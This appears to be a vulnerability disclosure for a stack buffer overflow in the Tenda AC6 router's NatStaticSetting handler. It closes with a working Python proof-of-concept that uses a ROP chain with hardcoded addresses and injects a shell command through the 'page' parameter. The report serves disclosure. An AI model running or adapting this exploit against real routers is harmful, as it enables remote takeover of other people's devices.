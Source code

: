 # Information

**Vendor of the products:**   Tenda

**Vendor's website:** [首页_腾达(Tenda)官方网站](https://www.tenda.com.cn/)

**Reported by:  **GuoHengyu(2183056014@qq.com)

**Affected products:** AC6 

**Affected firmware version:**  <=V15.03.05.19

**Firmware download address:** [AC6V1.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/102681)

# Overview

A buffer overflow vulnerability exists in the `fromNatStaticSetting` function of the Tenda AC6 router. By sending a crafted HTTP request with a malicious `page` parameter, a remote attacker can trigger a stack overflow that leads to a segmentation fault. This may result in denial-of-service (DoS) or potentially allow further exploitation.



# Vulnerability details

The Tenda AC6 V15.03.05.19 firmware has a buffer overflow vulnerability in the fromNatStaticSetting function.

![image-20250519171204529](1/image-20250519171204529.png)

![image-20250519171357593](1/image-20250519171357593.png)



A stack-based buffer overflow vulnerability exists in the Tenda AC6 router due to the use of `sprintf(s, "nat_static.asp?page=%s", v6);` without proper bounds checking on the `page` parameter. If a crafted `page` argument longer than 0x120 bytes is supplied, it will overflow the destination buffer `s`, potentially resulting in a segmentation fault. A remote attacker can exploit this issue to cause denial of service or potentially achieve arbitrary code execution.



# POC

```python
import requests

from pwn import*
def execute_overflow(url, data):
    # Prepare malicious request parameters
    attack_params = {'page': data}
    
    server_response = requests.get(url, params=attack_params)
    server_response = requests.get(url, params=attack_params)

    # Display server response
    print("HTTP Status:", server_response.status_code)
    print("Response Content:", server_response.text)

if __name__ == "__main__":
    target_url = "http://192.168.2.131/goform/NatStaticSetting"

    payload = b'a'*0xf4+p32(0x3ff32010)+b'a'*0x10+p32(0x3ff2aaf0)+p32(0x407ffa30)+p32(0x3ff3d108)
    payload += b'echo "hacked by pfwqdxwdd" > ./var/webroot/flag.txt'

    execute_overflow(target_url, payload)


```

![image-20250519172815912](1/image-20250519172815912.png)

